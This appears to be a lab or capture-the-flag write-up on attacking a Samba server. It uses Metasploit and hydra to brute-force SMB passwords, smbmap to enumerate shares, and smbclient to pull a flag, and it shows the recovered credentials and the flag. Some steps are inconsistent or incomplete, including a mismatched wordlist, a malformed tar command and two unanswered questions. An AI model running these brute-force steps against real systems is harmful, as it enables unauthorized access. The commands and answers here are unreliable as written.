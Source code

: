 1. What is the password of user “jane” required to access share “jane”? Use smb_login metasploit module with password wordlist /usr/share/wordlists/metasploit/unix_passwords.txt
   
```
msfconsole 
set RHOSTS 192.62.179.3 
set SMBUser jane 
set PASS_FILE /usr/share/wordlists/rockyou.txt
exploit

[*] 192.62.179.3:445      - 192.62.179.3:445 - Starting SMB login bruteforce
[-] 192.62.179.3:445      - 192.62.179.3:445 - Failed: '.\jane:123456',
[-] 192.62.179.3:445      - 192.62.179.3:445 - Failed: '.\jane:12345',
[-] 192.62.179.3:445      - 192.62.179.3:445 - Failed: '.\jane:123456789',
[-] 192.62.179.3:445      - 192.62.179.3:445 - Failed: '.\jane:password',
[-] 192.62.179.3:445      - 192.62.179.3:445 - Failed: '.\jane:iloveyou',
[-] 192.62.179.3:445      - 192.62.179.3:445 - Failed: '.\jane:princess',
[-] 192.62.179.3:445      - 192.62.179.3:445 - Failed: '.\jane:1234567',
[-] 192.62.179.3:445      - 192.62.179.3:445 - Failed: '.\jane:rockyou',
[-] 192.62.179.3:445      - 192.62.179.3:445 - Failed: '.\jane:12345678',
[+] 192.62.179.3:445      - 192.62.179.3:445 - Success: '.\jane:abc123'
[*] 192.62.179.3:445      - Scanned 1 of 1 hosts (100% complete)
```
   
2. What is the password of user “admin” required to access share “admin”? Use hydra with password wordlist: /usr/share/wordlists/rockyou.txt
   
```
hydra  -l admin -P /usr/share/wordlists/rockyou.txt 192.62.179.3 smb

[445][smb] host: 192.62.179.3   login: admin   password: password1
```
   
3. Which share is read only? Use smbmap with credentials obtained in question 2.
   
```
smbmap -H 192.62.179.3 -u admin -p password1

[+] IP: 192.62.179.3:445        Name: target-1                                          
        Disk                                                    Permissions
        ----                                                    -----------
        shawn                                                   READ, WRITE
        nancy                                                   READ ONLY
        admin                                                   READ, WRITE
        IPC$                                                    NO ACCESS
```
   
4. Is share “jane” browseable? Use credentials obtained from the 1st question.
   
```
smbmap -H 192.62.179.3 -u admin -p password1

No user jane
```
   
5. Fetch the flag from share “admin”
   
```
smbclient //192.62.179.3/admin -u admin 
password1 
cd hidden 
get flag.tar.gz
exit 
gzip -d flag.tar.gz
tar -xvf
cat flag

2727069bc058053bd561ce372721c92e
```
   
6. List the named pipes available over SMB on the samba server? Use  pipe_auditor metasploit module with credentials obtained from question 2.
   
```

```
   
7. List sid of Unix users shawn, jane, nancy and admin respectively by performing RID cycling  using enum4Linux with credentials obtained in question 2.
   
```

```
   